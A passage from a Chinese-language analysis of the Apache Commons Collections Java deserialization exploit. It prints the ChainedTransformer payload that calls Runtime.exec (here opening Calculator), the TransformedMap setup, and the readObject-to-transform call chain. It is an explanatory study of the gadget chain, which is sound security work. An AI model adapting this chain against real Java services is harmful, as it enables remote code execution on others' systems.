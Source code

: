 这里iTransformers为ChainedTransformer构造函数输入的Transformer数组。然后使用了 for 循环来调用 Transformer 数组的 transform() 方法，并且将object作为后一个调用transform()方法的参数依次循环。结合前面paylaod中Transformer数组的组成：

```
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
```
经过调试循环处理后执行的代码是：

``` 
public java.lang.Process java.lang.Runtime.exec(“open /Applications/Calculator.app”) throws java.io.IOException
```

到这里我们明白漏洞利用需要触发ChainedTransformer对象的transform()函数，而TransformedMap的checkSetValue函数中就调用了transform方法：

``` 
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

所以接着调用TransformedMap的decorate函数构造了TransformedMap对象，并将构造好的transformerChain给第三个参数valueTransformer：

```
Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
```

以此想办法触发TransformedMap的checkSetValue方法，这里接着
构造对象AnnotationInvocationHandler，该对象通过newInstance方法实例化对象。通过getDeclaredConstructor获取该对象构造函数，包含两个参数分别是：

```
private final Class<? extends Annotation> type;
private final Map<String, Object> memberValues;
```

AnnotationInvocationHandler类是该payload构造的最终序列化的对象，该类实现了Serializable接口且重写了readObject方法。而其成员变量 memberValues 是 Map 类型，并且在重写的readObject方法中进行了setValue操作，而setValue则会触发TransformedMap的checkSetValue方法,从而实现反序列化漏洞利用并执行任意代码。

```
public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
```

所以这里payload执行流程为:

AnnotationInvocationHandler.readObject()->map.setValue()->TransformedMap.checkSetValue()->ChainedTransformer.transform()-> InvokerTransformer.transform()->漏洞成功触发
